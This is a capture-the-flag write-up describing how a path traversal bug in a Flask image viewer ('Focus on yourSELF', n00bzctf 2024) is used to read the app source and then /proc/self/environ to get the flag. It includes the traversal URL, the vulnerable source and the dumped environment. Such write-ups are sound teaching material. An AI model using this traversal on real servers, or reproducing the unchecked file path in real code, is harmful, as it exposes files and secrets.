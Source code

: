 ```yaml
---
title: 'n00bzctf 2024'
description: 'Here is the solutions to some of the challenges in picoctf 2024'
pubDate: 'Mar 27 2024'
heroImage: 
  src: '/blog-placeholder-1.jpg'
  alt: ''
order: 1
tags: ["writeup"]
---
```


# Background Information
I participated in n00bzctf in the team of lazy bums. I wanted to solve all the web but I couldn't. Kinda sucks.

## Web 

### Focus on yourSELF 

> Have you focused on yourself recently?

Ok so upon looking into the website we can view an image as well as upload an image. Apparently the website does not actually verify whether it is a jpg or not and it allows any upload. 

Upon further inspection, the data in the upload is translated in data in the `img` tag reflected on the web page.

Unfortunately I tried to find a way to reflect data by uploading files, but all attempts failed.

Thankfully, looking at `http://9ac72039-8f1f-42dd-967a-3ff7f0d1e626.challs.n00bzunit3d.xyz:8080/view?image=nature.jpeg` I had an idea.

What if I tried LFI in that url and get the data enclosed in the `img` tag?

So I tried ../app.py based on the dockerfile, and... it worked! We get the app.py file!

```http://9ac72039-8f1f-42dd-967a-3ff7f0d1e626.challs.n00bzunit3d.xyz:8080/view?image=../app.py```

```python
#!/usr/bin/env python3
from flask import Flask, render_template, request, redirect, url_for
from base64 import b64encode
import os
import hashlib
import subprocess

app = Flask(__name__)

@app.route("/")
def show_gallery():
    # show a gallery of predetermined images
    return render_template("gallery.html")
    
@app.route("/upload", methods=['GET', 'POST'])
def upload():
    # allow to upload an image into /uploads
    if request.method == 'POST':
        if 'file' not in request.files:
            return "Error: No file selected"
        file = request.files['file']
        name = hashlib.sha256(os.urandom(16)).digest().hex()
        file.save(f"/srv/uploads/{name}")
        return redirect(url_for("view_image", image=name))
    return render_template("upload.html")

@app.route("/view")
def view_image():
    # view a specific image
    image = request.args.get('image', '')
    if image == '':
        return "Huh"
    else:
        try:
            with open(f'/srv/uploads/{image}', 'rb') as f:
                return render_template("view.html", url=f"data:image/jpeg;base64, {b64encode(f.read()).decode()}")
        except FileNotFoundError:
                return render_template("view.html", url="https://placehold.co/600x400")

if __name__ == '__main__':
    app.run('0.0.0.0', 1337)
```

So let's just find the env for flag in /proc/self/environ and get the flag using LFI.

```bash
PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin HOSTNAME=e95edce8fd15 FLAG=n00bz{Th3_3nv1r0nm3nt_det3rmine5_4h3_S3lF_3abbc2ab018e} LANG=C.UTF-8 GPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D PYTHON_VERSION=3.10.14 PYTHON_PIP_VERSION=23.0.1 PYTHON_SETUPTOOLS_VERSION=65.5.1 PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/66d8a0f637083e2c3ddffc0cb1e65ce126afb856/public/get-pip.py PYTHON_GET_PIP_SHA256=6fb7b781206356f45ad79efbb19322caa6c2a5ad39092d0d44d0fec94117e118 HOME=/home/chall 
```

> n00bz{Th3_3nv1r0nm3nt_det3rmine5_4h3_S3lF_3abbc2ab018e}